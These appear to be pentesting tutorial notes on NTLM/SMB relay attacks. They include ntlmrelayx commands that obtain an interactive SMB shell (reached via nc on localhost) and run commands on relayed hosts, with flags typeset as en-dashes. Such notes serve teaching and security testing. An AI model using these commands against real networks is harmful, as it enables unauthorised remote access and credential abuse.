

# NTLM/SMB Relay

## Introduction

A relay attack is the act of intercepting information passing over a network and relaying it to a target, which is none other than the legitimate recipient of the information.

The NTLM protocol carries out the challenge/response in clear text because the password hash is designed to protect this secret. It is therefore possible for a malicious user in a Man In The Middle position to intercept all the challenges/responses circulating on the network.


## SMB Relay Exploits

Beyond dumping out the local SAM hashes, we can have other fun with SMB relay attacks. For example, we can gain shell access on a machine:

```
sudo ntlmrelayx.py –tf targets.txt –smb2support -i
```

<figure><figcaption></figcaption></figure>

```
nc 127.0.0.1 11000
```

<figure><figcaption></figcaption></figure>

We can also run commands remotely. In this example, we’ll simply run “whoami” during the relay attack.

```
sudo ntlmrelayx –tf targets.txt –smb2support –c “whoami”
```

<figure><figcaption></figcaption></figure>


***

## REFERENCES

* [https://www.vaadata.com/blog/understanding-ntlm-authentication-and-ntlm-relay-attacks/](https://www.vaadata.com/blog/understanding-ntlm-authentication-and-ntlm-relay-attacks/)
* [https://tcm-sec.com/smb-relay-attacks-and-how-to-prevent-them/](https://tcm-sec.com/smb-relay-attacks-and-how-to-prevent-them/)
